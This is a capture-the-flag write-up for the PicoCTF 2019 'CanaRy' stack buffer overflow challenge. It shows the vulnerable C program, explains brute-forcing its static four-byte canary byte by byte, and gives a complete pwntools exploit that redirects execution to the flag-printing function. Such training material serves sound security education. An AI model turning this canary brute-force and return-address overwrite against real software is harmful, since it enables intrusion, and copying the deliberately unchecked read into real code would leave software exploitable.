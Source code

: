 ```yaml
---
title: Bypassing a Static Canary
description: Exploiting a buffer overflow attack by bypassing a static canary.
---
```


# Buffer Overflow - Bypassing a Static Canary

## Summary

Exploiting a buffer overflow attack with a static canary.

## Challenge

### Description

!!! note ""
    Challenge : `CanaRy` from PicoCTF 2019.

This time we added a canary to detect buffer overflows. Can you still find a way to retrieve the flag from this program.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Writeup

In the source code below, the canary is load from a text file and is only four bytes, `#define CANARY_SIZE 4`.

So, we can bruteforce it. The good way to do it, it's by bruteforcing the canary one byte at a time.

!!! example
    padding + 'a' : Stack Smashing Detected -> The canary is NOT starting by the letter 'a'.<br>
    padding + 'b' : Stack Smashing Detected -> The canary is NOT starting by the letter 'b'.<br>
    ...<br>
    padding + 'o' : Ok... Now Where'''s the Flag? -> The canary is starting by the letter 'o'.<br>
    Then, you go on with : 'oa', 'ob', 'oc', ... until you get the four bytes.

Once you retrieve the whole canary, you now can jump to the *win* function.

Let's make a python script with *pwntools* to flag this challenge :

```python linenums="1"
#!/usr/bin/env python3
from string import printable
from pwn import process, p32, context, ELF

context.log_level = "error"

elf = ELF('./vuln')
win_func_addr = p32(elf.symbols['win'])
padding = 32 * "A"


def retrieve_canary():
    canary = ""

    for i in range(4):
        for c in printable.replace("\n", ""):
            p = process("./vuln")
            p.sendlineafter("Buffer?\n> ", str(len(padding + canary + c)))
            p.sendlineafter("Input> ", padding + canary + c)

            data = p.recvline()
            if not "Stack Smashing Detected" in data.decode("utf-8"):
                canary += c
                break

    return canary


if __name__ == "__main__":
    canary = retrieve_canary()
    payload = (padding + canary + "A" * 16).encode() + win_func_addr

    p = process("./vuln")
    p.sendlineafter("Buffer?\n> ", str(len(payload)))
    p.sendlineafter("Input> ", payload)
    p.interactive()
```
